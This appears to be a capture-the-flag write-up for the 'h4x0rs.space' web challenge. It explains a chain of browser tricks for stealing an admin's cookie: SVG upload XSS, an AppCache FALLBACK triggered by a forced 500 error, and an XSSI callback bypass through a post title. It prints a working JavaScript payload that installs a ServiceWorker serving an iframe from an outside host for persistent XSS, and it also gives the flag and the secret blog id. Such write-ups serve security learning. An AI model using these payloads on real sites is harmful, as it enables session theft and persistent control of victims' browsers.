

# h4x0rs.space
## https://h4x0rs.space/blog/



```
I've made a blog platform let you write your secret. 
Nobody can know it since I enabled all of modern web security mechanism, is it cool, huh?

Get document. cookie of the admin.

h4x0rs.space

Hint: Every bug you found has a reason, and you may want to check some uncommon HTML5 features Also notice that, the admin is using real browser, since I found out Headless is not much real-world. GL

Hint 2: W3C defines everything, but sometimes browser developers decided to implement in their way, get the same browser to admin and test everything on it.

Hint 3: Can you make "500 Internal Server Error" from a post /blog.php/{id} ? Make it fall, the good will come. And btw, you can solve without any automatic tool. Connect all the dots.

Last Hint: CACHE
```

Since the `document.cookie` of admin is just the half, at the end you have to figure out where is the secret blog id.

Run [solve.py](solve.py) and report the result id to the admin.

Notice: Admin opens incognito window each time (appcache/sw/ will be clean) opening report blog ID, thus we have to setup delay iframe loading to buy time for appcache setup, and XSS him in one-shot.

## Bug
You should read this [writeup](https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803)
### We can upload .SVG file
By uploading .SVG file, we can easily execute javascript command, but the admin won't take a look at any links other than `/blog.php/...valid id...`.

### XSS in embed.php
We can perform XSS attack on `embed.php`, but we can not trigger it from the path `/blog/blog.php/...id...`. Get used to AppCache, then you will know that we can define `FALLBACK` in appcache manifest, and trigger 500 error to leads the browser to our `.svg` evil file.

### XSSI at `pad.php?callback=....`

We can easily find out there is XSSi at `pad.php`, but `callback` parameter is filterd and can not be longer than 8 characters. 

To bypass it, create a blog post with title like:
```javascript
`; ... javascript ... //
```

In [solve.py](solve.py), I have been using as the following:
```javascript
`({"data":"QQ==","id":"[blog_post_id]","title":"`;onfetch=(e)=>{e.respondWith(new Response('<iframe src=//l4w.io>',{headers:{'Content-Type':'text/html'}}))}//","time":"2018-04-03 12:32:00","image_type":""});
```

To setup ServiceWorker later then get persistent XSS (Imagine that, from now on, victim always get into your evil page, then you can silently control the pages).


## Root cause

Chrome can treat .jpg as .appcache manifest (but with restricted scope). Luckily, `embed.php` is in the scope.


## Flag
### document.cookie
OK! You got me... This is your reward: "flag{m0ar_featureS_" Wait, I wonder if you could hack my server. Okay, shall we play a game? I am going to check my secret blog post where you can find the rest of flag in next 5 seconds. If you know where I hide it, you win! Good luck. For briefly, I will open a new tab in my browser then go to my https://h4x0rs.space/blog.php/*secret_id* . You have to find where is it. 1...2...3...4..5... (Contact me @l4wio on IRC if you have a question)

### secret blog id
https://h4x0rs.space/blog/blog.php/15e8f6b2408ea136dd2e62dec47ceabc3b0ec9d1d99eebd740853ae23b6db375

## Other writeups
https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803
